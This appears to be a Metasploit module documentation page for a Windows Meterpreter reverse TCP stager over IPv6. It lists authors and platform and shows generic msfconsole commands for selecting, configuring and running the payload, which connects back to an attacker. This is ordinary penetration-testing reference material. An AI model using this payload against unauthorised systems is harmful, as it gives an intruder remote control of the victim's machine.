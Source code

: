 ## Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (IPv6)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker over IPv6


## Module Name
payload/windows/patchupmeterpreter/reverse_ipv6_tcp

## Authors
* skape
* jt <jt@klake.org>
* hdm
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    